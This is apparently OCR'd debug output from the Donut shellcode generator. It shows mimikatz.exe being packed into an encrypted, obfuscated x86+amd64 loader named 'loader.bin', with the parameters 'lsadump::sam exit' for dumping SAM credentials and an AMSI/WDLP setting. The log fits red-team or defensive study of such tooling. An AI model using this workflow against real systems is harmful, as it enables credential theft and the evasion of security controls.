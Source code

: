 DEBUG: donut.c:807:CreateInstance(): Hash for wininet.dll     : HttpQueryInfoA         = D4EEE57F477FE013
DEBUG: donut.c:807:CreateInstance(): Hash for mscoree.dll     : CorBindToRuntime       = 45964B3A0790EA11
DEBUG: donut.c:807:CreateInstance(): Hash for mscoree.dll     : CLRCreateInstance      = AF19DE2DFDDC387C
DEBUG: donut.c:807:CreateInstance(): Hash for ole32.dll       : CoInitializeEx         = 3C74435194201CEE
DEBUG: donut.c:807:CreateInstance(): Hash for ole32.dll       : CoCreateInstance       = AE07674E99604398
DEBUG: donut.c:807:CreateInstance(): Hash for ole32.dll       : CoUninitialize         = 2CBC3DC7C51672C0
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlEqualUnicodeString  = 1BE848F01092C568
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlEqualString         = 843A12A6D6B48A52
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlUnicodeStringToAnsiString = 14183300DEDE2A3A
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlInitUnicodeString   = 2AA1F15AC21C5EFD
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlExitUserThread      = FAC1A2D55C0211EE
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlExitUserProcess     = 112E064D1CFB5E87
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlCreateUnicodeString = E59AF311C726FCC9
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlGetCompressionWorkSpaceSize = 2691D357A2E502D8
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : RtlDecompressBufferEx  = 66845AB3DD7E5961
DEBUG: donut.c:807:CreateInstance(): Hash for ntdll.dll       : NtContinue             = FFBE44BEFC842282
DEBUG: donut.c:933:CreateInstance(): Copying module data to instance
DEBUG: donut.c:938:CreateInstance(): encrypting instance
DEBUG: donut.c:950:CreateInstance(): Leaving.
DEBUG: donut.c:1131:DonutCreate(): Saving instance to file
DEBUG: donut.c:1164:DonutCreate(): PIC size : 504055
DEBUG: donut.c:1171:DonutCreate(): Inserting opcodes
DEBUG: donut.c:1207:DonutCreate(): Copying 20305 bytes of x86 + amd64 shellcode
DEBUG: donut.c:1267:DonutCreate(): Saving loader as raw data
DEBUG: donut.c:276:unmap_file(): Releasing compressed data
DEBUG: donut.c:280:unmap_file(): Unmapping
DEBUG: donut.c:283:unmap_file(): Closing
DEBUG: donut.c:1306:DonutCreate(): Leaving.
  [ Instance type : Embedded
  [ Module file   : "mimikatz.exe"
  [ Entropy       : Random names + Encryption
  [ Compressed    : Xpress Huffman (Reduced by 53%)
  [ File type     : EXE
  [ Parameters    : lsadump::sam exit
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "loader.bin"
DEBUG: donut.c:1314:DonutDelete(): Entering.
DEBUG: donut.c:1333:DonutDelete(): Leaving.
</pre>
